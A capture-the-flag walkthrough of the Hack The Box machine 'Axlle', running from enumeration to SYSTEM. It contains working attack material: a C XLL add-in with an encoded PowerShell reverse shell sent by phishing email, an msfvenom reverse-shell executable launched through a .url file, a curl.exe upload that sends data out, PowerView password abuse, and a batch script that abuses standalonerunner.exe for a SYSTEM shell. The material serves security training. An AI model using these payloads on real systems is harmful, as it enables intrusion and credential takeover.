





Axlle

Initial Enumeration¶
Nmap Scan¶
We start with an Nmap scan to discover open ports and subsequently run service/version scans as well as default script scans on the target.
$ sudo nmap -p- --min-rate 1000 10.129.65.77 -oN scans/all-ports-tcp.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 19:17 CET
Nmap scan report for 10.129.65.77
Host is up (0.022s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT STATE SERVICE
25/tcp open smtp
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
9389/tcp open adws
49664/tcp open unknown
58949/tcp open unknown
58953/tcp open unknown
58954/tcp open unknown
58960/tcp open unknown
58975/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 112.53 seconds
$ sudo nmap -p25,53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV 10.129.65.77 -oN scans/tcp-detailed.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 20:55 CET
Nmap scan report for 10.129.65.77
Host is up (0.039s latency).
PORT STATE SERVICE VERSION
25/tcp open smtp hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Axlle Development
| http-methods:
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-01-16 19:55:35Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-01-16T19:55:45
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.97 seconds
- Active Directory Domain Controller (LDAP)
- Domain name:
axlle.htb - Host name:
MAINFRAME - HTTP 80/TCP
- SMTP 25/TCP
Port 80/TCP¶
Simple website, navigating through it we find an email address where we can send invoices/requests to in Excel format. Furthermore we see a security notice that macros are disabled.

Exploitation¶
Research¶
Researching for Excel specific phishing attacks we come across multiple posts mentioning the use of XLL files for phishing campaigns, such as this post.
These XLL files are Excel add-ins used to extend the functionality of Excel. They are basically DLL files and thus we can greatly abuse them by writing a malicious DLL. Researching some more about the XLL files, we find the Microsoft Documentation of the xlAutoOpen function, which must be implemented and gets called when the XLL is opened.
For some more information about the attack, there are some great resources by:
For the following we will craft a malicious XLL file aiming to establish a reverse shell connection to our listener. We then send the malicious file as an email attachment to the previously discovered email address accounts@axlle.htb during our port 80/TCP enumeration.
Payload Creation¶
In the following we will first confirm the phishing attack using a payload aimed to initiate pings from the victim host to our attack host. For this we use the code provided by edparcell and edit the xlAutoOpen function in order to execute our desired operation.
Testing with Ping¶
To have the victim ping back to us, we can simply issue a system call and execute the ping command to our IP.
#include <windows.h>
#include <stdlib.h>
short __stdcall xlAutoOpen()
{
system("cmd.exe /c ping 10.10.16.33");
return 1;
}
BOOL APIENTRY DllMain( HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
We compile it using the MinGW compiler. Since we are compiling on Linux, don't forget to make the header includes lower-case, since Linux is case sensitive.
And we start tcpdump on our Hack The Box VPN interface to catch the pings.
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
Finally we have to send the malicious XLL as an email attachment, as discussed above. We use swaks to send the email to the victim containing our malicious file.
$ swaks --from xpltive@axlle.htb --to accounts@axlle.htb --header "Subject: Important notice" --body "Please refer to attachment" --attach @ping.xll --server axlle.htb --port 25
=== Trying axlle.htb:25...
=== Connected to axlle.htb.
<- 220 MAINFRAME ESMTP
-> EHLO kali
<- 250-MAINFRAME
<- 250-SIZE 20480000
<- 250-AUTH LOGIN
<- 250 HELP
-> MAIL FROM:<xpltive@axlle.htb>
<- 250 OK
-> RCPT TO:<accounts@axlle.htb>
<- 250 OK
-> DATA
<- 354 OK, send.
-> Date: Fri, 17 Jan 2025 16:11:21 +0100
-> To: accounts@axlle.htb
-> From: xpltive@axlle.htb
-> Subject: Important notice
-> Message-Id: <20250117161121.278952@kali>
-> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
-> MIME-Version: 1.0
-> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_278952"
->
-> ------=_MIME_BOUNDARY_000_278952
-> Content-Type: text/plain
->
-> Please refer to attachment
-> ------=_MIME_BOUNDARY_000_278952
-> Content-Type: application/octet-stream; name="ping.xll"
-> Content-Description: ping.xll
-> Content-Disposition: attachment; filename="ping.xll"
-> Content-Transfer-Encoding: BASE64
->
-> TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<--SNIP-->
-> aW5nd19hcHBfdHlwZQA=
->
-> ------=_MIME_BOUNDARY_000_278952--
->
->
-> .
<- 250 Queued (9.864 seconds)
-> QUIT
<- 221 goodbye
=== Connection closed with remote host.
Almost immediately after sending the email we get the pings from the victim to our host.
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:05:46.839206 IP axlle.htb > 10.10.16.33: ICMP echo request, id 1, seq 2, length 40
16:05:46.839235 IP 10.10.16.33 > axlle.htb: ICMP echo reply, id 1, seq 2, length 40
16:05:47.849697 IP axlle.htb > 10.10.16.33: ICMP echo request, id 1, seq 3, length 40
Reverse Shell Payload¶
Having confirmed the phishing attack as being successful, we will now move on to craft our reverse shell payload. For this we will use a simple base64 encoded PowerShell command using revshells. In the xlAutoOpen function we simply replace the ping command.
#include <windows.h>
#include <stdlib.h>
short __stdcall xlAutoOpen()
{
system("cmd.exe /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAzACIALAA2ADYANgA2ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==");
return 1;
}
BOOL APIENTRY DllMain( HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
Once again we compile it using MinGW.
And send it as an email attachment to the victim using swaks.
$ swaks --from xpltive@axlle.htb --to accounts@axlle.htb --header "Subject: Important notice" --body "Please refer to attachment" --attach @shelly.xll --server axlle.htb --port 25
=== Trying axlle.htb:25...
=== Connected to axlle.htb.
<- 220 MAINFRAME ESMTP
-> EHLO kali
<- 250-MAINFRAME
<- 250-SIZE 20480000
<- 250-AUTH LOGIN
<- 250 HELP
-> MAIL FROM:<xpltive@axlle.htb>
<- 250 OK
-> RCPT TO:<accounts@axlle.htb>
<- 250 OK
-> DATA
<- 354 OK, send.
-> Date: Fri, 17 Jan 2025 16:05:31 +0100
-> To: accounts@axlle.htb
-> From: xpltive@axlle.htb
-> Subject: Important notice
-> Message-Id: <20250117160531.272604@kali>
-> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
-> MIME-Version: 1.0
-> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_272604"
->
-> ------=_MIME_BOUNDARY_000_272604
-> Content-Type: text/plain
->
-> Please refer to attachment
-> ------=_MIME_BOUNDARY_000_272604
-> Content-Type: application/octet-stream; name="shelly.xll"
-> Content-Description: shelly.xll
-> Content-Disposition: attachment; filename="shelly.xll"
-> Content-Transfer-Encoding: BASE64
->
-> TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<--SNIP-->
-> aW5nd19hcHBfdHlwZQA=
->
-> ------=_MIME_BOUNDARY_000_278952--
->
->
-> .
<- 250 Queued (9.864 seconds)
-> QUIT
<- 221 goodbye
=== Connection closed with remote host.
Before issuing the above command and thus sending the email, we start our listener to catch the reverse shell connection being established by the victim. After sending the email we successfully catch the shell as domain user gideon.hamill on the MAINFRAME host.
$ rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.33] from (UNKNOWN) [10.129.65.77] 49719
PS C:\> whoami
axlle\gideon.hamill
PS C:\> hostname
MAINFRAME
PS C:\>
AD Enumeration¶
Since we now have code execution as a domain user, we start by gathering information about the Active Directory domain axlle.htb.
To do so we upload the SharpHound collector for BloodHound to the victim host and run it. We first start a download server on our attack host.
Next we download the tool to the victim host using curl and subsequently run it to collect all domain information and save it to a zip file.
PS C:\ProgramData\xpltive> curl http://10.10.16.33:1080/SharpHound.exe -o hound.exe
PS C:\ProgramData\xpltive> .\hound.exe -c All --zipfilename axlle
2025-01-17T07:29:17.8884358-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-01-17T07:29:17.9040465-08:00|INFORMATION|Initializing SharpHound at 7:29 AM on 1/17/2025
2025-01-17T07:29:18.0759172-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for axlle.htb : MAINFRAME.axlle.htb
2025-01-17T07:29:18.1072200-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-01-17T07:29:18.3259535-08:00|INFORMATION|Beginning LDAP search for axlle.htb
2025-01-17T07:29:18.3728350-08:00|INFORMATION|Producer has finished, closing LDAP channel
2025-01-17T07:29:18.3728350-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-01-17T07:29:48.9822088-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2025-01-17T07:30:07.2477771-08:00|INFORMATION|Consumers finished, closing output channel
2025-01-17T07:30:07.2790401-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2025-01-17T07:30:07.4821674-08:00|INFORMATION|Status: 113 objects finished (+113 2.306123)/s -- Using 44 MB RAM
2025-01-17T07:30:07.4821674-08:00|INFORMATION|Enumeration finished in 00:00:49.1587646
2025-01-17T07:30:07.5602917-08:00|INFORMATION|Saving cache with stats: 72 ID to type mappings.
72 name to SID mappings.
0 machine sid mappings.
2 sid to domain mappings.
0 global catalog mappings.
2025-01-17T07:30:07.5602917-08:00|INFORMATION|SharpHound Enumeration Completed at 7:30 AM on 1/17/2025! Happy Graphing!
We transfer the ZIP archive over to our attack host, by first starting an upload server.
And issue the file upload to this server using curl.exe on the victim host.
PS C:\ProgramData\xpltive> curl.exe -X POST -F "files=@20250117073007_axlle.zip" http://10.10.16.33:1080/upload
After having received the file, we can import the .zip into our BloodHound instance and enumerate the AD environment.

Inspecting some initial information about our compromised domain user gideon.hamill does not get us further. However we will use this AD domain information later on. For now we will move back to enumerating the MAINFRAME host.
Host Enumeration¶
We start with some manual enumeration on the host, getting information about privileges, groups, programs installed and potentially interesting files.
Eventually we will come across the hMailServer program installed on the host, which we also fingerprinted during our initial Nmap scan (25/TCP). Inside the directory of it at C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F we see an .eml file present. Upon getting the contents of the file, we will see an interesting email mentioning the development team testing automation. They ask to drop web shortcut files into C:\inetpub\testing.
PS C:\> type "C:\Progra~2\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml"
Return-Path: webdevs@axlle.htb
Received: from bumbag (Unknown [192.168.77.153])
by MAINFRAME with ESMTP
; Mon, 1 Jan 2024 06:32:24 -0800
Date: Tue, 02 Jan 2024 01:32:23 +1100
To: dallon.matrix@axlle.htb,calum.scott@axlle.htb,trent.langdon@axlle.htb,dan.kendo@axlle.htb,david.brice@axlle.htb,frankie.rose@axlle.htb,samantha.fade@axlle.htb,jess.adams@axlle.htb,emily.cook@axlle.htb,phoebe.graham@axlle.htb,matt.drew@axlle.htb,xavier.edmund@axlle.htb,baz.humphries@axlle.htb,jacob.greeny@axlle.htb
From: webdevs@axlle.htb
Subject: OSINT Application Testing
Message-Id: <20240102013223.019081@bumbag>
X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
Hi everyone,
The Web Dev group is doing some development to figure out the best way to automate the checking and addition of URLs into the OSINT portal.
We ask that you drop any web shortcuts you have into the C:\inetpub\testing folder so we can test the automation.
Yours in click-worthy URLs,
The Web Dev Team
Host Exploitation & Lateral Movement to dallon.matrix¶
We can abuse web shortcut files (.url) in order to do all kinds of nefarious stuff, such as using them to reach out to a rogue SMB server that we host in order to catch NTLMv2 hashes and try to crack/relay them or since we already have code execution on the host itself, we can chose to simply run an executable.
We craft a malicious executable using MSFVenom which aims to establish a reverse shell connection back to our attack host's listener.
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.33 lport=6666 -f exe -o shelly.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shelly.exe
Next we prepare our malicious .url file with the following contents, which will run the above executable.
We start a download server on our attack host in order to download the files to the victim host.
Download the files and subsequently copying the malicious automation.url to C:\inetpub\testing; as mentioned in the previously read email.
Before copying the .url file, we obviously start our listener on our attack host in order to catch the connection attempt made by the executable. We will successfully get a reverse shell connection as dallon.matrix on the MAINFRAME host. We also start up PowerShell.
$ rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.33] from (UNKNOWN) [10.129.65.77] 49880
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.
C:\>whoami
axlle\dallon.matrix
C:\>hostname
MAINFRAME
C:\>cd ProgramData\xpltive
C:\ProgramData\xpltive>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
PS C:\ProgramData\xpltive>
The user flag can now be found at C:\Users\dallon.matrix\Desktop\user.txt.
PS C:\ProgramData\xpltive> type "C:\Users\dallon.matrix\Desktop\user.txt"
33fc5f5827a0ba1a5e1d83526f688501
AD Exploitation & Lateral Movement to jacob.greeny¶
After having obtained a shell as domain user dallon.matrix, we go back to the BloodHound data and can see dallon.matrix is part of the domain group WEB DEVS, which in turn has ForceChangePassword permissions on the domain users jacob.greeny and baz.humphries.

Both of the aforementioned users are part of the REMOTE MANAGEMENT USERS as well as APP DEVS groups. The REMOTE MANAGEMENT USERS group would allow us to access the MAINFRAME host via the exposed WinRM service we saw during the initial Nmap scan.

We start with compromising the jacob.greeny domain user by abusing the ForceChangePassword permission. To do this we transfer over the PowerView tool to the MAINFRAME host; similar to as we have transferred files previously.
To change the password we import PowerView, define a new password using ConvertTo-SecureString and finally set the password for jacob.greeny using the Set-DomainUserPassword functionality of PowerView.
PS C:\ProgramData\xpltive> Import-Module .\powerview.ps1
PS C:\ProgramData\xpltive> $pw_jacob = ConvertTo-SecureString 'P@ssword1' -AsPlainText -Force
PS C:\ProgramData\xpltive> Set-DomainUserPassword -Identity jacob.greeny -AccountPassword $pw_jacob
Since jacob.greeny is part of the REMOTE MANAGEMENT USERS group, we can now authenticate via WinRM to the MAINFRAME host using the password we just set. We use Evil-WinRM for this.
$ evil-winrm -i MAINFRAME.axlle.htb -u jacob.greeny -p 'P@ssword1'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jacob.greeny\Documents> whoami
axlle\jacob.greeny
*Evil-WinRM* PS C:\Users\jacob.greeny\Documents> hostname
MAINFRAME
Host Enumeration as jacob.greeny¶
With code execution as jacob.greeny we can now access the C:\App Development folder present on the victim host.
*Evil-WinRM* PS C:\> cmd /c tree /a /f "App Development"
Folder PATH listing
Volume serial number is 000001D3 BFF7:F940
C:\APP DEVELOPMENT
\---kbfiltr
| kbfiltr.sln
| README.md
|
+---exe
| kbftest.c
| kbftest.vcxproj
| kbftest.vcxproj.Filters
|
\---sys
kbfiltr.c
kbfiltr.h
kbfiltr.inx
kbfiltr.rc
kbfiltr.vcxproj
kbfiltr.vcxproj.Filters
public.h
rawpdo.c
We see some source files for a C program called kbfiltr, which upon researching a bit on it online appears to be a slightly modified version of the Keyboard Input WDF Filter Driver by Microsoft. The source code can also be found on Microsoft's GitHub .
Privilege Escalation¶
Getting the contents of the README.md at C:\App Development\kbfiltr\README.md reveals some interesting information in form of a note someone left:
*Evil-WinRM* PS C:\App Development\kbfiltr> type README.md
<--SNIP-->
**NOTE: I have automated the running of `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` as SYSTEM to test and debug this driver in a standalone environment**
<--SNIP-->
We gain knowledge that the standalonerunner.exe is running automated as SYSTEM to debug the kbfiltr. Upon googling for the standalonerunner.exe we come across a GitHub repository by nasbench. They researched the executable and found that one could achieve arbitrary code execution.
This helps us greatly, as we know the standalonerunner.exe is configured to run as SYSTEM. So if we get code execution this way, we have ultimately compromised the host.
We follow the steps nasbench provided and create a quick .bat script that does the steps for us with the following contents.
@echo off
(echo myTestDir && echo True) >> "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\reboot.rsf"
mkdir "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\myTestDir\working"
echo $null > "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\myTestDir\working\rsf.rsf"
echo powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAzACIALAA2ADYANgA2ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA== > "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\command.txt"
We chose a base64 encoded PowerShell command once again to establish the reverse shell connection, since it appears we have to stick to native Windows commands for this.
